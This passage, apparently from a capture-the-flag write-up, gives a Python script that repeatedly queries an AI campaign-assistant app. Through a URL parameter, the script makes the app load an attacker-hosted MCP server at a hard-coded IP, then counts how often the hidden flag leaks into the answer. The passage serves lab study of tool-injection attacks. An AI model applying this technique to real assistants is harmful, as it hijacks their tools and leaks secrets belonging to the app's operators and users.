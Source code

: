 # Testing the MCP Server
The example MCP Server doesn't consistently return the flag, but in testing if you use the `How can I vote` question, it should return it around 40% to 60% of the time:

```python
import requests

if __name__ == "__main__":
    test_count = 10
    hit = 0
    vpn_ip = "104.238.179.94" # replace with your IP
    for i in range(test_count):
        url = f"http://my-campaign-pal.valverde.vote:8000/ask?question=How%20can%20I%20vote%3F&mcp-server=http%3A%2F%2F{vpn_ip}%3A8000%2Fsse"
        r = requests.get(url)
        answer = r.json()["answer"]
        if (
            "VARIEDANATOMISTCHAPERONE" in answer # Counting this because the CTFD description contains the format with dashes
            or "VARIED-ANATOMIST-CHAPERONE" in answer
        ):
            print(answer)
            hit += 1

    print(f"Flag found: {(hit/test_count)*100}")
```